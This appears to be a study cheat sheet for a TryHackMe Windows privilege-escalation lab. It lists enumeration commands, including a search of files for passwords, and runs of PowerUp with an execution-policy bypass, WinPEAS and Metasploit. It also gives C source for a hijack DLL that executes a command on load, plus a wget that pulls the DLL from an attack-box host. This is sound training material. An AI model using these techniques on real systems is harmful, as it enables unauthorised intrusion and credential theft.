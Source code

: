 <!-- TOC -->

- [Windows Privesc](#windows-privesc)
    - [Information Gathering](#information-gathering)
        - [User Enumeration](#user-enumeration)
        - [Collecting system information](#collecting-system-information)
        - [Searching files](#searching-files)
        - [Patch level](#patch-level)
        - [Network Connections](#network-connections)
        - [Scheduled Task](#scheduled-task)
        - [Drivers](#drivers)
        - [Antivirus](#antivirus)
    - [Tools of the trade](#tools-of-the-trade)
        - [WinPEAS](#winpeas)
        - [PowerUp](#powerup)
        - [Windows Exploit Suggester](#windows-exploit-suggester)
        - [Metasploit](#metasploit)
    - [Vulnerable Software](#vulnerable-software)
    - [DLL Hijacking](#dll-hijacking)

<!-- /TOC -->

# Windows Privesc

[Windows Privesc Room](https://tryhackme.com/room/winprivesc)

Learn the fundamentals of Windows privilege escalation. From enumeration to exploitation, get hands-on with privilege escalation techniques seen in the industry today.

## Information Gathering

### User Enumeration

```cmd
whoami /priv
net user
net user <USER>
qwinsta
query session
net localgroup
net localgroup <GROUP>
```

### Collecting system information

```cmd
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
hostname
```

### Searching files

```cmd
findstr /si password *.txt
```

### Patch level

```cmd
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

### Network Connections

```cmd
netstat -ano
```

### Scheduled Task

```cmd
schtasks
schtasks /query /fo LIST /v
```

### Drivers

```cmd
driverquery
```

### Antivirus

```cmd
sc.exe query windefend
```

## Tools of the trade

### WinPEAS

```cmd
winpeas.exe > outputfile.txt
```

### PowerUp

```cmd
powershell.exe -nop -exec bypass
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

### Windows Exploit Suggester

```cmd
windows-exploit-suggester.py –update
windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo sysinfo_output.txt
```

### Metasploit

```bash
multi/recon/local_exploit_suggester
```

## Vulnerable Software

```cmd
wmic product
wmic product get name,version,vendor
wmic service list brief
wmic service list brief | findstr  "Running"
sc.exe qc <SERVICE>
```

- Searchsploit
- Metasploit
- Exploit-DB
- Github
- Google

## DLL Hijacking

```c
/* windows_dll.c */
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

```bash
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```

rhost:

```cmd
wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll
```



